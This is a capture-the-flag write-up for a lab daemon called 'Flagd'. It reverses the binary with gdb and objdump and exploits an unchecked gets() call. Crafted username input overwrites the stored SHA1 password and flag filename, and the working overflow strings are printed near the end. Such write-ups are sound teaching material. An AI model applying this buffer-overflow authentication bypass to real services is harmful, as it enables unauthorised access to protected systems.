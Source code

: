 # 06 Flagd

A network service is protected by a username and password. The service will
reveal the flag after entering the correct username and password.

The source code to the daemon (minus the flag) is provided.

## Write-up

Connecting to the network service you are prompted for the username and
password. Incorrect credentials cause the connection to drop.

```
% nc 127.0.0.1 8081
username: toby
password: foo
try again
```

First strings, and some revealing finds:

```
572605b7H
a56995dcH
fbb67f34H
d8fc66b9H
e1add93dH
flag.txtH
dH34%(
[]A\A]A^A_
0123456789abcdef
usage: flagd port
flagd
username:
password:
admin
couldn't open flag file.
flag{
invalid flag file!
here is your flag: %s
try again
```

We can make some assumptions:
* the daemon reads the flag from a local file called flag.txt.
* that file contains the flag text, which will be inserted between flag{ and }
  which are added by the daemon.
* the daemon intends to output the flag to the user.
* the username is "admin".

The block of hex at the top is curious. This could be the encoded password:
`572605b7a56995dcfbb67f34d8fc66b9e1add93d`. It doesn't directly convert back to
ASCII. The length though, 40 characters, is exactly right for a sha1sum value.

Next thing was to check how the password is compared in the daemon. I
disassembled the daemon with objdump and fortunately it was not stripped. The
daemon will fork for incoming connections and then run a "got_client"
routine, which is the most interesting part of the daemon.

After reading the code I could see it `gets` two inputs from user, the username
and the password. It then uses SHA1 and to_hex functions, presumably on the
user's password. The username was in the binary, the password could be too and
it may be that hex block.

I confirmed this idea by running the daemon in gdb and setting a breakpoint
where it does the comparisons. Here is the point in the daemon just before it
compares the password. You can see the argument for memcmp stored in rcx/rsi
contains the hex value.

```
-----------------------------------------------------------------------------------------------------------------------[regs]
  RAX: 0x00007FFFFFFFE040  RBX: 0x0000000000000000  RBP: 0x00007FFFFFFFE1C0  RSP: 0x00007FFFFFFFE040  o d I t s Z a P c
  RDI: 0x00007FFFFFFFE088  RSI: 0x0000555555555738  RDX: 0x0000000000000000  RCX: 0x00007FFFFFFFE145  RIP: 0x00005555555552AE
  R8 : 0x00007FFFFFFFDFA0  R9 : 0x00007FFFFFFFDFFC  R10: 0x0000000000000838  R11: 0x00007FFFF7662860  R12: 0x0000555555554EB0
  R13: 0x00007FFFFFFFE320  R14: 0x0000000000000000  R15: 0x0000000000000000
  CS: 0033  DS: 0000  ES: 0000  FS: 0000  GS: 0000  SS: 002B
-----------------------------------------------------------------------------------------------------------------------[code]
=> 0x5555555552ae <got_client+384>:	lea    rax,[rbp-0x180]
   0x5555555552b5 <got_client+391>:	add    rax,0xdc
   0x5555555552bb <got_client+397>:	mov    edx,0x28
   0x5555555552c0 <got_client+402>:	mov    rsi,rcx
   0x5555555552c3 <got_client+405>:	mov    rdi,rax
   0x5555555552c6 <got_client+408>:	call   0x555555554e10 <memcmp@plt>
   0x5555555552cb <got_client+413>:	test   eax,eax
   0x5555555552cd <got_client+415>:	jne    0x5555555553aa <got_client+636>
-----------------------------------------------------------------------------------------------------------------------------
0x00005555555552ae in got_client ()
gdb$ x/s $rcx
0x7fffffffe145:	"572605b7a56995dcfbb67f34d8fc66b9e1add93d"
```

I ran the password through john to see if it was something easily guessed.
However, after 24 hours of dictionary and brute forcing, I decided to stop it
since the number of points for the challenge did not seem to warrant it. If it
was one of those kinds of challenges it would typically be found quickly.

Next I checked [Testing for Stack
Overflow](https://www.owasp.org/index.php/Testing_for_Stack_Overflow) to see if
the C functions in the got_client routine where vulnerable and found that gets
and strlen are.

To make things easier to read I tried using hopper to generate pseudo code for
the got_client routine:

```
    printf("username: ");
    fflush(**stdout);
    gets(&var_0 + 0x48);
    printf("password: ");
    fflush(**stdout);
    gets(&var_0 + 0x8);
    rax = strlen(&var_0 + 0x8);
    SHA1(&var_0 + 0x8, rax, &var_0 + 0xc8);
    to_hex(&var_0 + 0xc8, 0x14, &var_0 + 0xdc);
    rax = strcmp(&var_0 + 0x48, "admin");
    if (rax != 0x0) goto loc_13aa;
    goto loc_12a0;
```

This reveals:
* User's username stored in 0x48 (72)
* User's password stored in 0x8 (8)
* User's password run through SHA1 and stored in 0xc8 (200)
* User's password run through to_hex and stored in 0xdc (220)
* Real password stored in 0x105 (261)
* The real password is 0x28 (40) characters long
* The length of the username isn't checked, but the first 5 characters must
  match "admin".
* Password is stored before the username, so it could be used to overwrite
  everything that comes afterwards

I sketched out the memory structure to understand what the layout (. =
unknown, % = unused buffer space that we can control):
```
          1         2         3         4         5         6         7         8         9
0123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789
........0x8-password%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%0x48-username%%%%%%%%%%%%%%%

100
          1         2         3         4         5         6         7         8         9
0123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

200
          1         2         3         4         5         6         7         8         9
0123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789
0xc8-SHA1-result%%%%0xdc-to_hex-result%%%%%%%%%%%%%%%%%%%%%%%0x105-real-password%%%%%%%%%%%%%%%%%%%%

300
          1         2         3         4         5         6         7         8         9
0123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789
%%..................................................................................................
```

There is the potential that we can craft a string for either the username or
password and overwrite the values after it to put the conditions under our
control and make the program think we provided the correct password when in
fact we just change what password it checks internally to the one we provide at
the prompt.

Generate a SHA1 value I know the original value of, can be anything:
```
% echo -n "password" | sha1sum
5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8  -
```

Again, sketched out what the memory would look like substituting values to
send, using "password" as the password and replacing the binary's password.
(Note: # is null character, so strlen() captures the plain-text password we
already computed)

```
          1         2         3         4         5         6         7         8         9
0123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789
        password#%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%admin%%%%%%%%%%%%%%%%%%%%%%%

100
          1         2         3         4         5         6         7         8         9
0123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

200
          1         2         3         4         5         6         7         8         9
0123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%5baa61e4c9b93f3f0682250b6cf8331b7ee68fd

300
          1         2         3         4         5         6         7         8         9
0123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789
8%..................................................................................................
```

Then rolled this up into a single value that I would provide for the password
prompt.

```
password\x00%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%admin%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8%
```

Alternatively, we could just start from the username instead though and save a
little effort. So now I have something like:

```
username: admin%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8%
password: password
```

When I tried this I found it did not work. While debugging in gdb and exploring
the memory I noticed the flag.txt file name has to appear in the correct place
too.

```
username: admin%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%flag.txt%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8
password: password
```

This still wasn't working. Debugging in gdb again I saw the my password as
passing the comparison. It was failing on the username (which is compared
after the password). This must be something trivial. Reviewing the code I
realised the username should be null-terminated.

```
username: admin^@%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%flag.txt%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8
password: password
couldn't open flag file.
```

Success... almost! Null-terminate the flag file name...

```
username: admin^@%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%flag.txt^@%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8
password: password
here is your flag: flag{zer0_c0de_eXecution_n3cessary}
```
